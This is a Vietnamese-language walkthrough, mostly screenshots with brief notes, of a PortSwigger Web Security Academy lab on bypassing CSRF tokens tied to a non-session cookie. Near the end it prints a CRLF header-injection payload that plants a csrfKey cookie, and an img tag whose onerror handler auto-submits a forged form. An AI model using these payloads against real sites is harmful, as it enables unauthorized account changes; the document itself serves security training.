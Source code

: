 # [Lab 5: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

![Yêu cầu lab 5](../image/lab5/0.png)

> - **Mô tả lab:**
>
> - **Mục tiêu:**

main web

![Alt text](../image/lab5/01.png)

login `wiener:peter`

![Alt text](../image/lab5/02.png)

có cả CSRF token và key

![Alt text](../image/lab5/03.png)

![Alt text](../image/lab5/04.png)

đổi cả 2 cái ở 2 account cho nhau xem

![Alt text](../image/lab5/05.png)

vẫn thay được bình thường

![Alt text](../image/lab5/06.png)

![Alt text](../image/lab5/07.png)

![Alt text](../image/lab5/08.png)

→ Tấn công CSRF

`Search` không có CSRF bảo vệ → chèn cookies vì `csrfKey` ở Cookie

![Alt text](../image/lab5/09.png)

`/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`


→ đổi script thành thẻ img dẫn đến src là endpoint trên thì tự động thực hiện submit

`
<img src="https://0aa50085048405c88502a0580056007a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ZYhZvnlxhRclyG8Yfz6BuXMuxgpY9l6P%3b%20SameSite=None" onerror="document.forms[0].submit()">
`

![Alt text](../image/lab5/10.png)

